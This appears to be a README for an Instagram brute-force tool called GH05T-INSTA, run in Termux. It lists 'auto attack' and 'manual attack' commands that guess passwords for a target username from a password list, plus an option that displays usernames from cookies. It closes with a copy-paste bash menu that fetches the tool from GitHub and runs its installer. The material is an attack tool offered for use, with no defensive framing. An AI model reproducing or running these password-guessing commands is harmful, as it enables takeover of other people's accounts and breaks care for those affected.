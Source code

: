 # GH05T SCN

* Included Developer and Cookies

`Never modify the GH05T-INSTA tool`

<b>AUTO ATTACK</b>

```
gh05t --user username --pass 20
```

<b>MANUAL ATTACK</b>

```
gh05t --user username --passadd pwdlocation
```

<b>Brute Force error</b>

```
gh05t --error
```

<b>Uninstall gh05t</b>

```
gh05t uninstall all
```

<b>CHECKING FILES</b>

```
gh05t --check
```

<b>Update GH05T-INSTA Tool</b>

```
gh05t --update
```

<b>Display Usernames</b>

```
gh05t --cookies
```

<b>To contact the developers</b>

```
gh05t developer
```

<b>Help Command</b>

```
gh05t --help
```

```
CONTRIBUTE  :  GH05T-HUNTER5
```

COPY THIS CODE ⬇️

```bash
function ban () {
clear
echo -e " \033[0;32m   ██╗███╗   ██╗███████╗████████╗ █████╗"
echo -e " \033[0;32m   ██║████╗  ██║██╔════╝╚══██╔══╝██╔══██╗"
echo -e " \033[0;32m   ██║██╔██╗ ██║███████╗   ██║   ███████║ "
echo -e " \033[0;32m   ██║██║╚██╗██║╚════██║   ██║   ██╔══██║"
echo -e " \033[0;32m   ██║██║ ╚████║███████║   ██║   ██║  ██║"
echo -e " \033[0;32m   ╚═╝╚═╝  ╚═══╝╚══════╝   ╚═╝   ╚═╝  ╚═╝"
echo -e " \033[0;31m    Coded  :  Your name "
}
function main () {
if [ -d /data/data/com.termux/files/home/.gh05t ]; then
clear
ban
sleep 1
echo -e "    \033[0;31m01  Auto Attack"
echo -e "    \033[0;31m02  Manual Attack"
echo -e "    \033[0;31m03  Update"
echo -e "    \033[0;31m04  Error"
echo -e "    \033[0;31m05  Check "
echo -e "    \033[0;31m06  Developer "
echo -e "    \033[0;31m07  Username "
echo -e "    \033[0;31m99  Help"
echo -e "    \033[0;31m00  Exit"
read -p "      what you want  : " what
if [ $what = "01" ] || [ $what = "1" ]; then
ban
read -p " Enter Your Instagram Username : " user
gh05t --user $user --pass 18
elif [ $what = "02" ] || [ $what = "2" ]; then
ban
read -p " Enter Your Instagram Username : " user
read -p " Enter your password location along with name : " pass
gh05t --user $user --passadd $pass
elif [ $what = "03" ] || [ $what = "3" ]; then
gh05t --update
elif [ $what = "04" ] || [ $what = "4" ]; then
gh05t --error
elif [ $what = "05" ] || [ $what = "5" ]; then
gh05t --check
elif [ $what = "06" ] || [ $what = "6" ]; then
clear
termux-open wa.me/+0000000000 {your number}
elif [ $what = "07" ] || [ $what = "7" ]; then
gh05t --cookies 
elif [ $what = "99" ]; then
gh05t --help
elif [ $what = "05" ]; then
clear
exit
else
echo ""
clear
echo " Try Again "
sleep 3
main
fi
else
clear
ban
echo -e " \033[0;31m   please wait"
sleep 5
pkg install python -y
git clone https://github.com/GH05T-HUNTER5/GH05T-INSTA
cd GH05T-INSTA
python install.py
clear
main
exit
fi
}
main
```
